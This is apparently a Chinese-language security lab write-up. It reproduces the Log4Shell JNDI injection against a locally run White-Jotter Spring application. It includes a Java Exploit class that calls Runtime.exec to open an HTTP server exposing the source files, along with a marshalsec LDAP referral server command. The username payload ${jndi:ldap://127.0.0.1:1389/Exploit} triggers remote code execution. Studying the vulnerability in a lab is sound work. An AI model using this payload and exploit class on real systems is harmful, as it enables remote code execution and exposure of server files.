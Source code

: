 接下来修改 White-Jotter/src/main/resources/application.properties 中的数据库配置：

```properties
spring.datasource.url=jdbc:mysql://localhost:3306/wj?characterEncoding=UTF-8&serverTimezone=GMT%2B8
spring.datasource.username=root
spring.datasource.password=aaaaaa
spring.datasource.driver-class-name=com.mysql.cj.jdbc.Driver
```

接下来构建并运行项目：

```shell
cd White-Jotter
mvn clean package
cd target
java -jar wj-1.0.0.war
```

发现 localhost:8443/login 并不能正常访问，报错为找不到对应的 index.html。发现 resources 文件夹中内容不对，需要将 White-Jotter/public 文件夹拷贝到 src/main/resources 下，然后重新构建并运行项目，即可成功访问。输入 admin/123 可以正常登录。

接下来编写 Exploit 脚本，类似前面的打开计算器，这里需要开启 python HTTP 服务：

```java
public class Exploit {
    static {
        System.out.println("Executing exploit!");
        System.out.println("Attack!");
        try {
            String[] cmds = {"python", "-m", "http.server", "8888", "--directory", ".."};
            java.lang.Runtime.getRuntime().exec(cmds).waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

然后同样本地开启 HTTP 服务和 LDAP 服务：

```shell
python -m http.server 8100
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8100/#Exploit"
```

接下来在用户名处输入 ${jndi:ldap://127.0.0.1:1389/Exploit} 并登录，即可触发漏洞，在服务器上 RCE，开启 8888 端口上的服务。可以发现 LDAP 和 HTTP 服务中出现了请求，wj 服务中也执行了 Exploit.class 出现了输出：

<div style="text-align: center;">
<img src="/assets/images/sec/syssec/lab1/img2.png" width="100%" style="margin: 0 auto;">
</div>

同时可以通过 8888 端口来访问 web 服务的源文件：

<div style="text-align: center;">
<img src="/assets/images/sec/syssec/lab1/img3.png" width="60%" style="margin: 0 auto;">
</div>

